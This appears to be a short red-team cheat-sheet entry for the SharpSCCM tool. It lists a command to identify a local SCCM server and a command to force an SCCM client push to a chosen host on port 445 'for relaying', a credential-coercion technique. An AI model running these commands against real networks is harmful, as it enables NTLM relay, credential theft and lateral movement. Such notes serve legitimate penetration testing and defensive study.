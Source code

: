 ### Source
https://github.com/Mayyhem/SharpSCCM, 

### Identify SCCM server on local machine
```
SharpSCCM.exe local siteinfo
```

### Initiate Client Push (for relaying)
```
SharpSCCM.exe <server> <siteCode> invoke client-push -t "<windowsHostNetbiosName>@445"
```

